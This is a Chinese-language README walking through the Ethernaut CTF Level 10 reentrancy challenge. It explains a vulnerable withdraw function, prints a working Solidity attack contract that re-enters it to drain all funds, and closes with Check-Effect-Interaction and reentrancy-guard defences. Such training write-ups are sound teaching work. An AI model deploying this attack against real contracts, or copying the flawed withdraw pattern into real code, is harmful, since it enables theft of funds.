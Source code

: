 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../imgs/levels/10-reentrancy.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 10 - Reentrancy</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 10 - Reentrancy](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

“盗取”合约里的所有资金
<img src="../imgs/requirements/10-reentrancy-requirements.webp" width="800px"/>

## 漏洞

本关卡，我们需要夺取合约中的所有资金。如果你熟悉重入攻击，那么这个题目就非常简单了。

可重入攻击一般发生在，对另一个合约的外部调用。例如，合约在收到eth后，合约就可以可以在`receive()`或`fallback()`函数响应转账。`receive()`或`fallback()`函数就是我们可以发动重入攻击的关键。这就是为什么“检查-效果-交互”模式(简称CEI)很重要。

在本例中，`msg.sender` 的余额在外部调用后更新，这为重入攻击打开了大门。

```javascript
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```
如何攻击?

由于余额是在外部调用后更新的，因此我们可以调用`withdraw`函数，并在接收eth时通过`fallback()`函数重新进入合约。此时，虽然我们已经提取了余额，但由于状态还没有更新，我们可以再次提取!

```javascript
// This will always be true
balances[msg.sender] >= _amount;
```

我们可以重复这个过程，直到合约的余额耗尽。取款函数将最终完成其执行并更新我们的余额…有点晚了。

CEI:

- <b>Check: 确保所有输入和条件都是正确的.
- Effect: 更新所有状态.
- Interaction: 与其他合同交互.</b>

## 解答

让我们利用`withdraw`函数重新进入合约并提取它的余额，因为它并不是CEI模式。

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack is Test {
    Reentrance instance;

    constructor(address payable fb) payable {
        instance = Reentrance(fb);
    }

    function attack() public {
        instance.withdraw(10);
    }

    fallback() external payable {
        uint256 bal = address(instance).balance;
        if (bal > 0) {
            if (bal >= msg.value) {
                instance.withdraw(msg.value);
            } else {
                instance.withdraw(bal);
            }
        }
    }
}
```

## 要点

- 必须遵循<b>CHECK-EFFECT-INTERACTION</b>.
- 也可以使用重入守卫。有备无患.


<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
